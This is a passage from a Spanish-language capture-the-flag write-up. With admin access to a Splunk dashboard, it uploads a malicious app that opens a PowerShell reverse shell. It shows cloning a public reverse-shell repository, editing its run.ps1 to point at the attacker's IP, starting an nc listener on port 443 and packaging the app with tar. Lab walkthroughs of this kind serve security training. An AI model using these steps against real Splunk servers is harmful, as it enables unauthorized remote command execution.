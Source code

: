 Tenemos acceso administrativo al Dashboard, esto nos permite administrar aplicaciones dentro de `Splunk`. Cargaremos una nueva app maliciosa que ejecute una consola de `powershell` hacia nuestra máquina.

Nos dirigiremos a `Apps` > `Manage Apps` > `Install app from file` para cargar nuestra reverse shell

![image-center](/assets/images/posts/haze-splunk-as-admin.png)
{: .align-center}

En cuanto a la construcción de la reverse shell, podemos utilizar el [siguiente repositorio](https://github.com/0xjpuff/reverse_shell_splunk) 

~~~ bash
git clone https://github.com/0xjpuff/reverse_shell_splunk
cd reverse_shell_splunk
~~~

>Editaremos el archivo `reverse_shell_splunk/bin/run.ps1` para enviar la conexión a nuestra IP por un puerto que nosotros seleccionemos.
{: .notice--warning}

Iniciaremos un listener en nuestra máquina atacante por un puerto, en mi caso elegí el `443`

~~~ bash 
rlwrap -cAr nc -lvnp 443
~~~

Crearemos el archivo que subiremos a `Splunk` con el comando `tar`

~~~ bash
tar -cvzf reverse_shell_splunk.tgz reverse_shell_splunk

reverse_shell_splunk/
reverse_shell_splunk/bin/
reverse_shell_splunk/bin/rev.py
reverse_shell_splunk/bin/run.bat
reverse_shell_splunk/bin/run.ps1
reverse_shell_splunk/default/
reverse_shell_splunk/default/inputs.conf
~~~
